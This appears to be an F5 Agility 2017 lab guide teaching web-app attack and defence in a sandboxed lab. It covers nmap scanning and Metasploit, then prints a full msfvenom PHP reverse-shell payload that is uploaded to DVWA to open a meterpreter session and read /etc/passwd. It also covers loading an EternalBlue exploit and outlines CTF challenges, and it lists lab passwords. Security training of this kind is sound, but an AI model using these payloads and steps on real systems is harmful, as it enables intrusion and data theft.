






Agility 2017 Hands-on Lab Guide

ASM 341 “PWN like a Hacker; Defend like a Pro”

Presented by: Peter Scheffler, Chris Skibo, Paul Weigel, and Matt Burns

What’s inside

`Introduction 1 <#introduction>`__

`Lab Environment: 1 <#lab-environment>`__

`Metasploit Overview: 3 <#metasploit-overview>`__

`Exercise 1 : Scanning the Network
4 <#exercise-1-scanning-the-network>`__

`Exercise 2: Exploiting a Web Server
12 <#exercise-2-exploiting-a-web-server>`__

`Meterpreter 18 <#meterpreter>`__

`Exercise 3: Metasploit Utilities
19 <#exercise-3-metasploit-utilities>`__

`Capture The Flag: 22 <#capture-the-flag>`__

`Hack and Patch 22 <#hack-and-patch>`__

`Your First Hack and Patch 23 <#your-first-hack-and-patch>`__

`Useful tools 23 <#useful-tools>`__

`Completing the CTF 24 <#completing-the-ctf>`__

`Challenge: Remote Command Execution
24 <#challenge-remote-command-execution>`__

`Challenge: Domain Cookie Exploit
25 <#challenge-domain-cookie-exploit>`__

`Challenge: Webscraping 26 <#challenge-webscraping>`__

`Challenge: BlindSQL Injection 30 <#challenge-blindsql-injection>`__

`Appendix A: Cyber Security – A Legal Perspective
35 <#appendix-a-cyber-security-a-legal-perspective>`__

`Learn More 42 <#learn-more>`__

Introduction
============

In this lab, you will be introduced to a few standard tools used in
identifying, testing, and mitigating exploits for web apps that live
behind the BIG-IP platform. You will also test your skills in a game of
capture the flag in the lab environment detailed below.

Lab Environment:
----------------

|image0|

Accessing the Class Resources
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The class is running in a self-contained virtual/cloud environment. To
access the resources a Windows 7 Jumpbox has been provided for the
Student to RDP to and then access the required devices. You will be
provided with an IP address of the Windows 7 Jumpbox when needed.
(Username: external\_user / Password: 401elliottW! ) You will also be
provided the external IP address of the Kali Linux server which you will
need for one of the labs.

Network Resources

+--------------------------+---------------+--------------+------------------------------------------+
|                          | IP Address    | Network      | URL                                      |
+==========================+===============+==============+==========================================+
| Win 7 Client             | 10.1.10.90    | External     |                                          |
+--------------------------+---------------+--------------+------------------------------------------+
| Win 7 Client             | 10.1.1.90     | Management   |                                          |
+--------------------------+---------------+--------------+------------------------------------------+
| KALI Linux               | 10.1.10.240   | External     |                                          |
+--------------------------+---------------+--------------+------------------------------------------+
| F5 BIG-IP                | 10.1.10.245   | External     |                                          |
+--------------------------+---------------+--------------+------------------------------------------+
| F5 BIG-IP                | 10.1.1.245    | Management   |                                          |
+--------------------------+---------------+--------------+------------------------------------------+
| F5 BIG-IP                | 10.1.20.245   | Internal     |                                          |
+--------------------------+---------------+--------------+------------------------------------------+
| Taxi App (unprotected)   | 10.1.10.131   | External     | http://taxiapp-unprotected.f5lab.biz     |
+--------------------------+---------------+--------------+------------------------------------------+
| Taxi App                 | 10.1.10.132   | External     | http://taxiapp.f5lab.biz                 |
| (protected)              |               |              |                                          |
+--------------------------+---------------+--------------+------------------------------------------+
| Hackazon (unprotected)   | 10.1.10.120   | External     | https://webstore-unprotected.f5lab.biz   |
+--------------------------+---------------+--------------+------------------------------------------+
| Hackazon                 | 10.1.10.115   | External     | http://webstore.f5lab.biz                |
| (protected)              |               |              |                                          |
+--------------------------+---------------+--------------+------------------------------------------+
| DVWA                     | 10.1.10.35    | External     | https://dvwa.f5lab.biz                   |
+--------------------------+---------------+--------------+------------------------------------------+
| HR Site                  | 10.1.10.101   | External     | https://hr.f5lab.biz                     |
+--------------------------+---------------+--------------+------------------------------------------+
| Intranet Site            | 10.1.10.102   | External     | https://accounts.f5lab.biz               |
+--------------------------+---------------+--------------+------------------------------------------+
| Struts2                  | 10.1.10.50    | External     | https://struts2.f5lab.biz                |
| (unprotected)            |               |              |                                          |
+--------------------------+---------------+--------------+------------------------------------------+
| Struts2                  | 10.1.10.51    | External     | https://struts2-protected.f5lab.biz      |
| (protected)              |               |              |                                          |
+--------------------------+---------------+--------------+------------------------------------------+

Metasploit Overview:
====================

Metasploit is more than just a ‘tool’, it was envisioned as a Framework
where tools, exploits, payloads and other hacker-related things would be
able to exist, allowing a penetration tester/hacker/researcher to focus
on what they wanted to do instead of having to cobble together many
different scripts.

Metasploit has been growing in size since its first release in 2003,
first built by a man named HD Moore using some basic perl scripts.
Metasploit 2.0 was released in October 2004, by Moore and a larger team
and has been expanding ever since with contributions from the larger
hacker-centric community.

Metasploit is essentially a console where many different modules work
together to allow a pentester to set common components up and then
execute code against potentially vulnerable targets.

The exploits within Metasploit are many and varied – you can attack
anything from a Mainframe to a Smartphone with a few simple commands.
And the exploits and payloads within Metasploit are configurable and can
be updated whenever there are newly released vulnerabilities.

Exercise 1 : Scanning the Network
---------------------------------

MSFconsole
~~~~~~~~~~

MSFconsole is a command line interface to access the modules of
Metasploit. It is the most commonly used component of Metasploit and
quite likely where you’d spend most of your time for testing
vulnerabilities. The only possible downside is that you need to be ‘on’
the Metasploit computer itself – either via ssh or logged in locally.

To access MSFconsole, do the following:

| Use putty on the Win 7 Client to SSH to the Kali Linux host CLI
  (10.1.10.240):
| root / 401elliottW!

|image1|

|image2|

Intelligence Gathering
~~~~~~~~~~~~~~~~~~~~~~

When a hacker wants to infiltrate your network, they start with
gathering Intel. There are many tools which can search for and identify
devices and applications on the network. Some are larger tools such as
nmap (discussed below), Nessus from Tenable
(`www.tenable.com <http://www.tenable.com>`__), Nexpose from Rapid7
(https://www.rapid7.com/free-tools/) or even fing (https://www.fing.io/)
which runs on your Smartphone!

nmap
~~~~

Before starting an attack, a hacker will probe for applications running
within the network. nmap is a freeware tool which can be used to probe a
subnet or a specific IP address to ports as well as attempt to classify
what the application on the port is.

Execute nmap against the DMZ network to see if there are any
‘interesting’ computers we can see.. From the ssh connection to the Kali
linux server, run the following command:

nmap -Pn -sS -A -oX /tmp/nmap.xml 10.1.10.0/24

This will initiate a scan which should take up to 10 minutes to
complete. The output will be stored in an XML file that we will import
into Metasploit.

Sample Output

Starting Nmap 6.49BETA4 ( https://nmap.org ) at 2017-06-26 14:32 EDT

Nmap scan report for 10.1.10.1

Host is up (0.0015s latency).

All 1000 scanned ports on 10.1.10.1 are filtered

MAC Address: 2C:C2:60:FF:00:01 (Ravello Systems)

Too many fingerprints match this host to give specific OS details

Network Distance: 1 hop

TRACEROUTE

HOP RTT ADDRESS

1 1.47 ms 10.1.10.1

Nmap scan report for 10.1.10.14

Host is up (0.0012s latency).

Not shown: 999 closed ports

PORT STATE SERVICE VERSION

80/tcp open http?

MAC Address: 2C:C2:60:4E:15:D2 (Ravello Systems)

No exact OS matches for host (If you know what OS is running on it, see
https://nmap.org/submit/ ).

TCP/IP fingerprint:

OS:SCAN(V=6.49BETA4%E=4%D=6/26%OT=80%CT=1%CU=31425%PV=Y%DS=1%DC=D%G=Y%M=2CC

OS:260%TM=5951553A%P=x86\_64-pc-linux-gnu)SEQ(SP=FC%GCD=1%ISR=10D%TI=RD%CI=R

OS:I%TS=A)OPS(O1=M5B4NNT11SLL%O2=M5B4NNT11SLL%O3=M5B4NNT11%O4=M5B4NNT11SLL%

OS:O5=M5B4NNT11SLL%O6=M5B4NNT11SLL)WIN(W1=111C%W2=1068%W3=780%W4=648%W5=648

OS:%W6=31B)ECN(R=Y%DF=Y%T=FF%W=111C%O=M5B4SLL%CC=N%Q=)T1(R=Y%DF=Y%T=FF%S=O%

OS:A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=FF%W=0%S=A%A=S%F=AR%O=%RD=

OS:0%Q=)T5(R=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=FF%W=0%

OS:S=A%A=S%F=AR%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=Y%T=FF%IPL=38%UN=0%RIPL=G%RID=G

OS:%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=Y%T=FF%CD=S)

***… snip …***

OS and Service detection performed. Please report any incorrect results
at https://nmap.org/submit/ .

Nmap done: 256 IP addresses (18 hosts up) scanned in 515.89 seconds

Open a New ssh session to the Kali server while the nmap command runs.

Metasploit uses a database to store many of the items you’ll be using as
well as the data from searches such as the one running in your nmap
session. To ensure that the database is running, run the following from
the command line:

service postgresql start

This will ensure that postgresql is running. You can also check the
status:

service postgresql status

● postgresql.service - PostgreSQL RDBMS

Loaded: loaded (/lib/systemd/system/postgresql.service; enabled)

Active: active (exited) since Tue 2017-07-04 10:59:07 EDT; 31min ago

Process: 779 ExecStart=/bin/true (code=exited, status=0/SUCCESS)

Main PID: 779 (code=exited, status=0/SUCCESS)

CGroup: /system.slice/postgresql.service

Run msfconsole

- #msfconsole

The first time you run msfconsole there can be a slight delay as indices
are updated.

Your output will vary on each run – since this is the free version – but
the final lines should look similar to the following:

=[ metasploit v4.14.5-dev ]

+ -- --=[ 1639 exploits - 945 auxiliary - 286 post ]

+ -- --=[ 473 payloads - 40 encoders - 9 nops ]

+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf >

You’re now in MSFconsole and you can investigate some of the commands
available to you.

msf > help <command>

For example you can see the possible switches for the connect command:

msf > help connect

Usage: connect [options] <host> <port>

Communicate with a host, similar to interacting via netcat, taking
advantage of

any configured session pivoting.

OPTIONS:

-C Try to use CRLF for EOL sequence.

-P <opt> Specify source port.

-S <opt> Specify source address.

-c <opt> Specify which Comm to use.

-h Help banner.

-i <opt> Send the contents of a file.

-p <opt> List of proxies to use.

-s Connect with SSL.

-u Switch to a UDP socket.

-w <opt> Specify connect timeout.

-z Just try to connect, then return.

msf >

We will spend time in Metasploit investigating some of the commands
later but for now, here are some of the interesting commands. You can
type ‘help <command>’ for some information on each of these.

options
^^^^^^^

Options are like command line flags for your exploits and modules.
You’ll use this all the time. Use ‘show options’ to see what has been
set for your current exploit/module.

advanced
^^^^^^^^

I know you’re reading this and saying, “I’m just starting!” but advanced
gives you access to debugging and other helpful information while you’re
testing vulnerabilities and you’ll use this command often.

For items listed in ‘options’ and ‘advanced’ you can use:

set or unset
^^^^^^^^^^^^

These commands operation on the flags shown in options and advanced. You
can set the flags or if you want to set it back to the default/blank
value you can unset it.

info
^^^^

Like options and advanced, this displays all of your current settings.

workspace
^^^^^^^^^

You can create different areas to work in, each with their own settings
and defaults. These are known as workspaces. When you’re testing
different vulnerabilities setting each in their own workspace can be
helpful and a real time saver.

reload\_all
^^^^^^^^^^^

reload\_all is useful when you add new modules or exploits to Metasploit
and want to import them into the database.

jobs
^^^^

You can push jobs into the background within the msfconsole environment
and this will show you active running jobs and allow you to push or pull
them to the foreground or background.

Exit out of Metasploit after you have spent some time looking around.

msf > exit

You’re now a Hacker!

Importing nmap scan results
~~~~~~~~~~~~~~~~~~~~~~~~~~~

Once the nmap process has completed in the first shell, you can return
to Metasploit and import the data.

Return to Metasploit

msfconsole

db\_import /tmp/nmap.xml

db\_import
^^^^^^^^^^

This command takes an XML file of a scan and will bring it into the
Metasploit database.

[\*] Importing 'Nmap XML' data

[\*] Import: Parsing with 'Nokogiri v1.7.2'

[\*] Importing host 10.1.10.14

[\*] Importing host 10.1.10.35

[\*] Importing host 10.1.10.50

[\*] Importing host 10.1.10.51

[\*] Importing host 10.1.10.55

[\*] Importing host 10.1.10.59

[\*] Importing host 10.1.10.90

[\*] Importing host 10.1.10.101

[\*] Importing host 10.1.10.102

[\*] Importing host 10.1.10.115

[\*] Importing host 10.1.10.120

[\*] Importing host 10.1.10.125

[\*] Importing host 10.1.10.131

[\*] Importing host 10.1.10.132

[\*] Importing host 10.1.10.195

[\*] Importing host 10.1.10.240

[\*] Successfully imported /tmp/nmap.xml

Now you can view the hosts where were located by nmap:

hosts -c address,name,os\_name,purpose

hosts
^^^^^

The hosts command will show the list of targets that are available for
exploiting. The XML file we have imported will also show more than just
the IP address. nmap is able to determine the kind of host that was
scanned. Here you can see that it has seen the VIPs as ‘TMOS’ and knows
that they’re an F5 virtual server based on the signature of the
connection. Where possible, it has done a reverse DNS lookup and you can
see what has been found in the local hosts file.

To see what services are available to connect to:

services

services
^^^^^^^^

This is where things get very interesting… nmap has determined the ports
and accessible items for each of the hosts. Now it’s possible to do some
investigation and access/attach to the ports of interest.

Services

========

host port proto name state info

---- ---- ----- ---- ----- ----

10.1.10.14 80 tcp http open

10.1.10.35 80 tcp http-proxy open F5 BIG-IP load balancer http proxy

10.1.10.35 443 tcp ssl/http open Apache httpd 2.4.7 (Ubuntu)
PHP/5.5.9-1ubuntu4.21 OpenSSL/1.0.1f

10.1.10.50 80 tcp http-proxy open F5 BIG-IP load balancer http proxy

10.1.10.50 443 tcp ssl/http open Apache Tomcat/Coyote JSP engine 1.1

10.1.10.51 80 tcp http-proxy open F5 BIG-IP load balancer http proxy

10.1.10.51 443 tcp ssl/https open

10.1.10.55 80 tcp http-proxy open F5 BIG-IP load balancer http proxy

10.1.10.55 443 tcp ssl/http open Apache httpd 2.4.7 (Ubuntu)
PHP/5.5.9-1ubuntu4.21 OpenSSL/1.0.1f

10.1.10.59 3389 tcp ms-wbt-server open

10.1.10.90 135 tcp msrpc open Microsoft Windows RPC

10.1.10.90 139 tcp netbios-ssn open Microsoft Windows 98 netbios-ssn

10.1.10.90 445 tcp microsoft-ds open primary domain: WORKGROUP

10.1.10.90 3389 tcp ms-wbt-server open Microsoft Terminal Service

10.1.10.90 49152 tcp msrpc open Microsoft Windows RPC

10.1.10.90 49153 tcp msrpc open Microsoft Windows RPC

10.1.10.90 49154 tcp msrpc open Microsoft Windows RPC

10.1.10.90 49155 tcp msrpc open Microsoft Windows RPC

10.1.10.90 49156 tcp msrpc open Microsoft Windows RPC

10.1.10.90 49157 tcp msrpc open Microsoft Windows RPC

10.1.10.101 81 tcp http-proxy open F5 BIG-IP load balancer http proxy

10.1.10.101 443 tcp ssl/https open

10.1.10.102 80 tcp http-proxy open F5 BIG-IP load balancer http proxy

10.1.10.102 443 tcp ssl/https open

10.1.10.115 80 tcp http-proxy open F5 BIG-IP load balancer http proxy

10.1.10.115 443 tcp ssl/https open

10.1.10.120 80 tcp http-proxy open F5 BIG-IP load balancer http proxy

10.1.10.120 443 tcp ssl/http open Apache httpd 2.4.7 (Ubuntu)
PHP/5.5.9-1ubuntu4.21 OpenSSL/1.0.1f

10.1.10.125 443 tcp ssl/http open Apache httpd 2.4.7 (Ubuntu)
PHP/5.5.9-1ubuntu4.21 OpenSSL/1.0.1f

10.1.10.131 80 tcp http open nginx 1.10.0 Ubuntu

10.1.10.132 80 tcp http open

10.1.10.195 3389 tcp ms-wbt-server open Microsoft Terminal Service

10.1.10.240 22 tcp ssh open OpenSSH 6.7p1 Debian 5 protocol 2.0

10.1.10.240 111 tcp rpcbind open 2-4 RPC #100000

Exercise 2: Exploiting a Web Server
-----------------------------------

This exploit uses some of the basic functions of the DVWA web site to
demonstrate how to hack through the site itself. A hacker would use this
as a means of circumventing your perimeter to gain access to your
applications, servers and data.

We will start by creating a pre-canned piece of php code that we will
upload to the web server through the upload function on DVWA. For this
exercise you will need to locate the external IP for your Kali server.
This IP is generated dynamically for each student but we have written a
script and an iRule on the CTF server to return the IP address you’ll
need.

On the Kali server, run the following:

msfvenom -p php/meterpreter/reverse\_tcp lport=4444 -f raw lhost=\`curl
-k https://ctf.f5lab.biz/whatismyip\`

% Total % Received % Xferd Average Speed Time Time Time Current

Dload Upload Total Spent Left Speed

100 14 100 14 0 0 492 0 --:--:-- --:--:-- --:--:-- 518

No platform was selected, choosing Msf::Module::Platform::PHP from the
payload

No Arch selected, selecting Arch: php from the payload

No encoder or badchars specified, outputting raw payload

Payload size: 950 bytes

/\*<?php /\*\*/ error\_reporting(0); $ip = '<YOUR-IP>'; $port = 4444; if
(($f = 'stream\_socket\_client') && is\_callable($f)) { $s =
$f("tcp://{$ip}:{$port}"); $s\_type = 'stream'; } elseif (($f =
'fsockopen') && is\_callable($f)) { $s = $f($ip, $port); $s\_type =
'stream'; } elseif (($f = 'socket\_create') && is\_callable($f)) { $s =
$f(AF\_INET, SOCK\_STREAM, SOL\_TCP); $res = @socket\_connect($s, $ip,
$port); if (!$res) { die(); } $s\_type = 'socket'; } else { die('no
socket funcs'); } if (!$s) { die('no socket'); } switch ($s\_type) {
case 'stream': $len = fread($s, 4); break; case 'socket': $len =
socket\_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen",
$len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch
($s\_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break;
case 'socket': $b .= socket\_read($s, $len-strlen($b)); break; } }
$GLOBALS['msgsock'] = $s; $GLOBALS['msgsock\_type'] = $s\_type;
eval($b); die();

Highlight the section of code that was generated – from the “/\*<?php”
to the end “die;”

Open a Command prompt on the Windows PC. In the command prompt type:

CD Desktop

Notepad hackdvwa.php

|image3|

In Notepad, paste the copied code and Save and Close the file.

|image4|

Open a Web Browser and go to https://dvwa.vlab.f5demo.com

Log in with admin / password

Choose the Upload menu on the lower left

|image5|

Click ‘Choose File’ and select the hackdvwa.php file you just created on
the Desktop and click ‘Upload’

|image6|

|image7|

The file is then posted to the server and the location is displayed for
you as a means of confirmation. You can copy this and paste it at the
end of the URL in the browser.

In the browser, visit that file’s location:
http://dvwa.vlab.f5demo.com/hackable/uploads/hackdvwa.php

This will actually fail and you should see a “no socket” message, but
we’ll set that up next.

Back to the Kali ssh session we will set up the server to connect to
from the web server.

If you’re not within msfconsole anymore, start it:

msfconsole

Now we want to choose an exploit to run.

use exploit/multi/handler

To see what is selected for this exploit by default, type:

options

Module options (exploit/multi/handler):

Name Current Setting Required Description

---- --------------- -------- -----------

Exploit target:

Id Name

-- ----

0 Wildcard Target

this selects the exploit we’ll run in Metasploit

set payload php/meterpreter/reverse\_tcp

To see the options for this payload, type:

options

Module options (exploit/multi/handler):

Name Current Setting Required Description

---- --------------- -------- -----------

Payload options (php/meterpreter/reverse\_tcp):

Name Current Setting Required Description

---- --------------- -------- -----------

LHOST yes The listen address

LPORT 4444 yes The listen port

Exploit target:

Id Name

-- ----

0 Wildcard Target

This chooses the actual payload we’re going to send through the exploit
and we’ll set some parameters. To see the options:

show options

msf exploit(handler) > set payload php/meterpreter/reverse\_tcp

payload => php/meterpreter/reverse\_tcp

msf exploit(handler) > show options

Module options (exploit/multi/handler):

Name Current Setting Required Description

---- --------------- -------- -----------

Payload options (php/meterpreter/reverse\_tcp):

Name Current Setting Required Description

---- --------------- -------- -----------

LHOST yes The listen address

LPORT 4444 yes The listen port

Exploit target:

Id Name

-- ----

0 Wildcard Target

Set the options as follows:

set lhost 10.1.10.240

set lport 4444

lhost and lport
^^^^^^^^^^^^^^^

These options are the ‘local’ listening IP and port for the exploit.
Note that the IP here is the internal NAT’d IP address. In the above php
code you entered the External NAT’d address.

Return to your web browser on the Windows PC and refresh the page.

Now we can start the server:

exploit

exploit
^^^^^^^

Exploit is the fun command… here we are running the exploit we want to
see. You can also use ‘run’ but exploit is so much more Hacker.

After a few seconds, you should see:

[\*] Started reverse TCP handler on 10.1.10.240:4444

[\*] Starting the payload handler...

[\*] Sending stage (33986 bytes) to <YOURIP>

[\*] Meterpreter session 3 opened (10.1.10.240:4444 -> <IP>:PORT) at
<Date>

And then a moment or two later:

meterpreter >

Meterpreter
-----------

Meterpreter is the “Swiss Army Knife” of the Metasploit Framework. You
can open a meterpreter console up through an exploit, like we just did.
In this case, we set up Metasploit to listen for incoming traffic on
port 4444 on our NAT’d internet address. We had to do this because the
DMZ address isn’t accessible by the Web Server but it is allowed to
connect to the internet. We then run the uploaded php code we generated
which opens the connection and now we’re able to run commands on the web
server as though we had an ssh-like connection.

Let’s examine the web server so see what we can find.

In the Meterpreter shell type:

dir

We can the following:

meterpreter > dir

Listing: /var/www/dvwa/hackable/uploads

=======================================

Mode Size Type Last modified Name

---- ---- ---- ------------- ----

100644/rw-r--r-- 667 fil 2013-07-08 12:55:06 -0400 dvwa\_email.png

100644/rw-r--r-- 950 fil 2017-06-19 09:11:52 -0400 hackdvwa.php

100644/rw-r--r-- 951 fil 2017-06-14 13:50:15 -0400 hackme.php.txt

We can see what accounts are on this server by typing:

cat /etc/passwd

To see a list of the commands that are available to you, you can type
*help* at any point

Feel free to investigate the web server, when you’re finished type
*exit* and the Meterpreter shell will close.

Note that when you close the session, the web page finally ends
spinning.

Exercise 3: Metasploit Utilities
--------------------------------

Update Metasploit application
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In order to stay current, you need to update your copy of the Metasploit
regularly. Issue the following command from the Kali bash command shell:

root@kali# sudo apt-get update

Note on non-Kali installs of Metasploit, you can issue the command
*msfupdate* within the Metasploit console but this is disabled in recent
releases of Kali in favor of using the apt-get command.

Update the Exploit database
~~~~~~~~~~~~~~~~~~~~~~~~~~~

This process is a little more involved. First you need to locate the
exploits you want to download (or even write your own!). The best
database for this is at https://www.exploit-db.com/ for viewing the
exploits but you can use the git tool grab specific items. The github
repository is located at
https://github.com/offensive-security/exploit-database

There is also a tool available on the git repository called searchsploit
which will search the database for you and list the exploits for you.

To find a new Windows exploit, you can execute from the Kali server:

On the Kali bash shell:

git clone https://github.com/offensive-security/exploit-database.git
/opt/exploit-database

cd /opt/exploit-database

Say you want to find the exploit which works with the recent NSA Hacks
released in May/June 2017, known as ‘eternalblue’ for SMB hacking:

./searchsploit eternalblue Windows

{ a list of exploits will be returned }

Now you can choose which one you want to load, we will load the one for
Windows 7/2008 or the file 42031.py. Looking at the output of the
command, you will see that the files are in the
platforms/win\_x86-64/remote directory. This file is the Ruby on Rails
code that will be executed by Metasploit, and it will need to be copied
to the proper folder.

cd ~/.msf4/modules

ls –ls

If the ‘exploits’ directory doesn’t exist, create it:

mkdir ~/.msf4/modules/exploits

cd exploits

Do the same for the directory tree: win\_86-64 and remote so you have
the following directory structure:

/root/.msf4/modules/exploits/win\_x86-64/remote

Now copy the Ruby files from the source location

cp /opt/exploit-database/platforms/win\_x86-64/remote/42031.py .

Now open Metasploit

msfconsole

And search for the newly added exploit

search eternalblue

And the exploit will be displayed and is available for use.

Capture The Flag:
=================

It’s time for a game of Capture the flag where you will test your skills
at both running and patching exploits. The “Capture the Flag” server and
scoreboard is located at https://ctf.f5lab.biz. Please first visit the
site to create a team name and have a look around. To complete a
challenge, enter in the Flag you receive when successfully running or
patching an exploit.

Hack and Patch
--------------

Note that each Mission is prefaced with [Hack] or [Patch].

Hacking
~~~~~~~

For the [Hack] missions, you will be attempting to run some sort of
exploit. Some will require knowledge of programming or some serious
Google-foo to make work. You MUST do these first in order to understand
how the [Hack] works. Also, you need to run the [Hack] missions against
the “Unprotected” VIPs.

Patching
~~~~~~~~

For the [Patch] missions, you need to rerun the same Hack you did in the
corresponding mission but against the “Protected” VIP which has a
special ASM policy attached.

\*\*\*\*\* Do not create your own ASM Policies \*\*\*\*\*

The policies which are attached have been customized to integrate with
our CTF API to show you the flags. Each “Protected” VIP has an existing
ASM Policy attached to it, please ensure that you modify the proper
policy for the VIP when you are attempting to get the patch flag.

Your First Hack and Patch
-------------------------

We will do the first one together… you’ll see how this works and we’re
sure you will enjoy the rest of the class.

Useful tools
------------

In order to complete the Capture the Flag, you will need some tools to
view the requests/responses and to complete the Hack missions. Many of
the tools you will need have been loaded onto the VMs you have access
to. Some of them are explained below:

SQLmap
~~~~~~

**SQLmap** is an open source penetration testing tool that automates the
process of detecting and exploiting SQL injection flaws and taking over
of database servers. It comes with a powerful detection engine, many
niche features for the ultimate penetration tester and a broad range of
switches lasting from database fingerprinting, over data fetching from
the database, to accessing the underlying file system and executing
commands on the operating system via out-of-band connections. Here is a
link to the sqlmap documentation: `Sqlmap
Website <http://sqlmap.org/>`__

SQLmap is installed on the Kali Linux server.

Burp Suite
~~~~~~~~~~

**Burp Suite** let’s you review/edit the data send and received among
other things. It functions as a proxy, typically configured to listen on
127.0.01 loopback address. An application such as a web broswer or
sqlmap is configured to use Burpsuite as a Proxy. This enables the
review/editing of what is transmitted and received. Here is a link to
Burpsuite downloads and documentation
`BurpSuite <https://portswigger.net/burp/>`__.

Burpsuite is installed on the Windows 7 Jumpbox.

Outwit Image Scraper
~~~~~~~~~~~~~~~~~~~~

Outwit is a simple, straight-to-the-point online image browser. Explore
the Web for pictures and easily create, save, and share collections.
With OutWit Images, you can automatically explore Web pages or search
engine results for pictures and create, save and share your collections
or view them as full-screen slideshows.

Outwit is installed on the Windows 7 Jumpbox.

Edit This Cookie
~~~~~~~~~~~~~~~~

EditThisCookie is a Google Chrome extension which allows the user to
easily see and manipulate the cookies on the current page.

EditThisCookie is installed on the Windows 7 Jumpbox.

Completing the CTF
------------------

You can complete the CTF Contest without referring to the document here,
however some of the challenges require some extra tools and some
specific knowledge in how to use those tools. We have added this to the
document here for you, allowing you to conduct the challenge by
following the examples here. If you wish, you can do the challenges
without these steps.

Challenge: Remote Command Execution
-----------------------------------

Level 1
~~~~~~~

Command injection is an attack in which the goal is execution of
arbitrary commands on the host operating system via a vulnerable
application. Command injection attacks are possible when an application
passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to
a system shell. In this attack, the attacker-supplied operating system
commands are usually executed with the privileges of the vulnerable
application. Command injection attacks are possible largely due to
insufficient input validation.

In this example, we have an application which uses a vulnerable version
of the Struts2 library. This library has a vulnerability in the file
upload component, allowing a properly formatted exploit to execute
commands on the server. More can be learned about this vulnerability
here:
https://devcentral.f5.com/articles/apache-struts-remote-code-execution-vulnerability-cve-2017-5638-25617

Using the supplied exploit read the *flag.txt* file in the Tomcat7
folder.

Level 2
~~~~~~~

When there is a php application on a web server, typically credentials
are stored within the application config in clear-text. Using this
knowledge, the Struts2 vulnerability and the DVWA site, access the
database for DVWA and get the flag from the database.

Challenge: Domain Cookie Exploit
--------------------------------

One of the uses of Cookies is to track sessions and identify users. For
example, once a user authenticates to a server, the server places a
cookie on the user computer that identifies the user. The next time the
user accesses the site, they will not be asked to authenticate – the
server will check the cookie that identifies the user as authenticated,
and allow the user in.

Cookie Hijacking is one of the attacks that can be executed to gain
access to privileged information. In this exploit, an attacker would
gain access to a cookie that contains user credential information,
session information, or other types of information that identify a user
to a system. Then the attacker would use this cookie (i.e. copy it to
their computer) to gain access to the server.

F5LAB.BIZ is a company that offers financial services to customers. They
have two services: hr.f5lab.biz (human resources services) and
accounts.f5lab.biz (tax services). Both services use a common backend
database to authenticate users.

